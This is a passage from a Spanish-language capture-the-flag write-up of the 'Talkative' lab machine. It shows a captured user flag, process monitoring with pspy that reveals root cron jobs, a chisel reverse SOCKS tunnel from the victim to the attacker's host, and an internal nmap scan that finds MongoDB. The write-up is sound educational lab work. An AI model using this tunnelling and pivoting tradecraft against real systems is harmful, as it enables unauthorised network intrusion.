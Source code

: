 ```null

```null
saul@talkative:~$ hostname -I
10.10.11.155 172.17.0.1 172.18.0.1 dead:beef::250:56ff:feb9:bfd9 
saul@talkative:~$ cat user.txt
1d9f0b5598c3316662b922d38f359339
```

# Escalada

Subo el ```pspy``` a la máquina víctima para encontrar procesos que se ejecutan en intervalos de tiempo

```null
2023/02/21 15:39:24 CMD: UID=0    PID=1      | /sbin/init auto automatic-ubiquity noprompt 
2023/02/21 15:40:01 CMD: UID=0    PID=5511   | cp /root/.backup/shadow /etc/shadow 
2023/02/21 15:40:01 CMD: UID=0    PID=5510   | /bin/sh -c cp /root/.backup/shadow /etc/shadow 
2023/02/21 15:40:01 CMD: UID=0    PID=5509   | /usr/sbin/CRON -f 
2023/02/21 15:40:01 CMD: UID=0    PID=5508   | /usr/sbin/CRON -f 
2023/02/21 15:40:01 CMD: UID=0    PID=5512   | /usr/sbin/CRON -f 
2023/02/21 15:40:01 CMD: UID=0    PID=5513   | cp /root/.backup/passwd /etc/passwd 
```

Está copiando un backup del ```/etc/passwd``` y ```/etc/shadow``` a las rutas originales. Esto no me sirve de nada. Más adelante encuentra otra tarea CRON

```null
2023/02/21 15:42:02 CMD: UID=0    PID=5535   | python3 /root/.backup/update_mongo.py 
2023/02/21 15:42:02 CMD: UID=0    PID=5534   | /bin/sh -c python3 /root/.backup/update_mongo.py 
```

Se está actualizando la base de datos ```mongodb```

Subo el ```chisel``` a la máquina víctima para crear un túnel por SOCKS5

En mi equipo lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
```

Para conectarme como cliente

```null
saul@talkative:/tmp$ ./chisel client 10.10.16.6:1234 R:socks &>/dev/null & disown
```

Con un binario estático de ```nmap``` puedo encontrar desde la máquina víctima la IP que tiene el puerto del ```mongodb``` abierto

```null
Nmap scan report for 172.17.0.2
Host is up (0.00033s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown
```
